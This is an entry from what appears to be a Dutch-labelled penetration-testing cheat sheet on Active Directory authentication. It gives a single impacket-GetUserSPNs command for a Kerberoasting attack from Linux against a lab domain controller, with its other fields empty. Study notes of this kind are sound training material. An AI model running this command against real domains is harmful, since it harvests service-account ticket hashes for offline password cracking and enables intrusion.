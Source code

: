 # 23. AD authentication — Entry 24

## Categorie

Kerberoasting - Linux

## Commando

```
sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete
```

## Omschrijving

Kerberoast attack from linux with impacket

## Voorbeeld

_(empty)_

## Opmerkingen

_(empty)_

